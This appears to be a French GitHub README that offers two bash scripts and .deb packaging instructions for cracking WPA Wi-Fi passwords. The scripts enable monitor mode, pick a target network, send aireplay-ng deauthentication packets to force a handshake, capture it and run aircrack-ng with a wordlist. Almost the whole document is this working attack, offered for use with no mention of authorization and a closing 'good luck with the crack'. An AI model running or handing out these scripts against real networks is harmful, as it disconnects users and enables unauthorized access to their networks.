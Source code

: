 # Script_bash_crack_wifi

## Script simple

```bash
#!/bin/bash

echo "=== Activation du mode moniteur ==="
sudo airmon-ng check kill
sudo airmon-ng start wlan0

echo ""
echo "=== Scan des réseaux disponibles (Ctrl+C pour stopper) ==="
sleep 2
sudo airodump-ng wlan0mon

echo ""
read -p "Entrez le BSSID de la cible : " bssid
read -p "Entrez le canal (CH) : " channel
read -p "Nom du fichier de capture (sans extension) : " output

echo ""
echo "=== Capture ciblée du handshake ==="
sleep 2
sudo airodump-ng -c $channel --bssid $bssid -w $output wlan0mon &
AIRODUMP_PID=$!

sleep 5
read -p "Appuyez sur Entrée pour envoyer les paquets de désauthentification (Ctrl+C pour annuler)"
sudo aireplay-ng -0 10 -a $bssid wlan0mon

echo ""
read -p "Appuyez sur Entrée pour arrêter la capture"
kill $AIRODUMP_PID

echo ""
read -p "Entrez le chemin vers votre dictionnaire (ex: /usr/share/wordlists/rockyou.txt) : " wordlist

echo ""
echo "=== Lancement du craquage avec Aircrack-ng ==="
sudo aircrack-ng -w $wordlist ${output}-01.cap

echo ""
echo "=== Script terminé. Bonne chance pour le crack ! ==="
```

`Ce qu’il fait :`

* Passe wlan0 en mode moniteur. 
* Lance airodump-ng pour détecter les réseaux.
* Demande le BSSID, canal et nom du fichier de capture.
* Lance la capture ciblée.
* Propose d’envoyer les paquets de désauthentification.
* Puis utilise Aircrack-ng avec le dictionnaire choisi.

## Interface utilisateur en texte (avec dialog)

1. Installation de dialog

```bash
sudo apt install dialog
```

wifi_attack_ui.sh
```bash
#!/bin/bash

# Vérification de dialog
if ! command -v dialog &> /dev/null; then
    echo "dialog n'est pas installé. Lance : sudo apt install dialog"
    exit 1
fi

# Étape 1 : tuer les interférences et passer en moniteur
airmon-ng check kill
airmon-ng start wlan0

# Étape 2 : scan initial
xterm -hold -e "airodump-ng wlan0mon" &
sleep 3
dialog --msgbox "Observe les réseaux dans la fenêtre ouverte.\nNote le BSSID et le canal.\nFerme la fenêtre puis clique OK." 12 50

# Étape 3 : récupération des infos utilisateur
bssid=$(dialog --inputbox "Entrez le BSSID de la cible :" 8 50 3>&1 1>&2 2>&3)
channel=$(dialog --inputbox "Entrez le canal (CH) de la cible :" 8 50 3>&1 1>&2 2>&3)
output=$(dialog --inputbox "Nom du fichier de capture (ex: capture1) :" 8 50 3>&1 1>&2 2>&3)

# Étape 4 : capture ciblée dans un terminal
xterm -hold -e "airodump-ng -c $channel --bssid $bssid -w $output wlan0mon" &
sleep 3
dialog --msgbox "La capture est lancée dans une nouvelle fenêtre.\nClique OK pour envoyer les paquets de désauth." 10 50

# Étape 5 : attaque de désauth
xterm -e "aireplay-ng -0 10 -a $bssid wlan0mon"

# Étape 6 : arrêt de la capture
pkill airodump-ng
sleep 1

# Étape 7 : sélection du fichier dictionnaire
wordlist=$(dialog --inputbox "Chemin vers votre dictionnaire (ex: /usr/share/wordlists/rockyou.txt) :" 8 60 3>&1 1>&2 2>&3)

# Étape 8 : craquage
capfile="${output}-01.cap"
dialog --msgbox "Début du craquage. Ceci peut prendre du temps." 7 50
xterm -hold -e "aircrack-ng -w $wordlist -b $bssid $capfile"

dialog --msgbox "Fin du script. Vérifie si le mot de passe a été trouvé !" 7 50
```
## Étapes pour créer un .deb : `wifi-attack-ui_1.0_all.deb`

1. Crée l’arborescence du paquet
```bash
mkdir -p wifi-attack-ui_1.0/DEBIAN
mkdir -p wifi-attack-ui_1.0/usr/local/bin
```
2. Place ton script dans `/usr/local/bin`
```bash
cp wifi_attack_ui.sh wifi-attack-ui_1.0/usr/local/bin/wifi-attack-ui
chmod +x wifi-attack-ui_1.0/usr/local/bin/wifi-attack-ui
```
 3. Crée le fichier control
```bash
nano wifi-attack-ui_1.0/DEBIAN/control
```

Et colle ceci dedans :

```vbnet
Package: wifi-attack-ui
Version: 1.0
Section: utils
Priority: optional
Architecture: all
Maintainer: Beidi Dina Samuel
Description: Script d’attaque WPA avec interface dialog pour Linux.
Depends: bash, dialog, aircrack-ng, xterm
```
4. Génère le .deb
```bash
dpkg-deb --build wifi-attack-ui_1.0
```

On obtient `wifi-attack-ui_1.0.deb`

### Pour installer le paquet :
```bash
sudo dpkg -i wifi-attack-ui_1.0.deb
```

Et tu l’exécutes avec :

```bash
wifi-attack-ui
```

ou on lance seulement le script en mode administrateur (sudo)
```bash
bash wifi-attack-ui.sh
```
